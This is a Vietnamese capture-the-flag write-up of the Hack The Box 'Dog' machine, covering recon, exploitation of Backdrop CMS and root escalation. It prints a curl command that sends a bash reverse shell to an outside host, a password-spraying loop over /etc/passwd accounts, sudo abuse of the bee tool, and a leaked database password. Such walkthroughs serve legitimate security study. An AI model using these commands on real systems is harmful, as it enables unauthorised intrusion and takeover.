# Khai thác máy ảo Dog Hackthebox
## Người thực hiện :Trần Minh Đức
### Bước 1: Reconnaissance

 Giai đoạn 1: Reconnaissance
Sử dụng nmap để lấy thông tin sơ qua về các dịch vụ và cổng của máy nạn nhân 




Nhìn sơ qua ở đây ta có thể thấy máy này đang sử dụng máy chủ web  Apache  và hệ quản trị Backdrop CMS chúng ta còn thấy một đường dẫn tới /.git/ nó là nơi lưu trữ file code của web

Sau đó chúng ta sẽ sử dụng git-dumper để tải toàn bộ code của web về 



Chúng ta sẽ thấy trong đấy có file setting.php nó sẽ có thể chứa 1 số thứ liên quan đến database



Ở đây chúng ta thấy có một password của root BackDropJ2024DS2024 nhưng khi lên web và đăng nhập thì lại k dc vậy ta đang cần phải tìm gmail của user khớp với cái mật khẩu này.

Tình cờ khi đọc các file trên /.git/ tôi thấy có một đoạn mã hóa và nó có đuổi gmail @dog.htb



au đó tôi đã sử dụng grep -ri @dog.htb nó là đuôi của gmail user của trang này => để tìm kiếm trong tất cả các file vừa tải về để tìm xem có các user nào ở trong đó k 



kết quả chúng ta tìm dc 2 user dog và tiffany chúng ta sẽ tiến hành đăng nhập thì thấy ng dùng tiffany@dog.htb sẽ phù hợp với mật khẩu .

### Giai đoạn 2: Exploitation
Vì web sử dụng backdrop cms để quản lí web nên ta sẽ tìm cách để scan một chút thông tin về phiên bản





Vì sử dụng phiên bản 1.27.1 là một phiên bản khá là thấp nên ta sẽ lên mạng tìm kiếm cve về nó



Sau đó chúng ta sẽ nén file và install lên web giao diện cms này 




`curl --get --data-urlencode \
"cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.217/53 0>&1'" \
"http://10.129.231.223/modules/shell/shell.php"`

để gửi một http/get đến máy chủ để thiết lập reverse shell và khi kết nối qua port 53 thành công chúng ta có thể điều khiển lệnh từ xa

nc -lvnp 53 để lắng nghe kết nối từ port 53 



` python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg 
export TERM=xterm `

Nâng cấp từ một "Shell thô" (Dumb Shell) thành một "Shell đầy đủ tính năng" (Fully Interactive TTY Shell)  chúng ta có thể dùng các lệnh vim nano copy xuống dòng …..

`PASS='BackDropJ2024DS2024'; for USER in $(cat /etc/passwd|grep -viE 'false$|nologin$|sync$'|awk -F: '{print $1}'); do (x=$(echo $PASS | su "$USER" -c whoami); if [ "$x" ]; then echo "[+] $USER"; fi) & done `

Ta sẽ dò tìm tài khoản user khớp với mật khẩu này  và trả về thì ta sẽ có tài khoản johncusack sau đó ta sẽ sử dụng dịch vụ ssh và đăng nhập 

### Giai đoạn 3: Privilege Escalation




sử dụng sudo -l để xem quyền hạn của tài khoản. Ta thấy có 1 đường dẫn /usr/local/bin/bee 1 đường dẫn có usr thuộc quyền sở hữu của root nên ta sẽ xem qua nó 







`sudo /usr/local/bin/bee --root=/var/www/html eval "echo shell_exec('whoami && id');"`

sau khi sử dụng cờ --root trong công cụ bee chúng ta thấy mình đã nằm ở quyền root

`sudo /usr/local/bin/bee --root=/var/www/html eval "system'bin/bash'"`

sau đó chúng ta sẽ sử dụng lệnh system’bin/bash’ để quay về terminal command line h chúng ta đã leo quyền thành công lên root và lấy cờ 
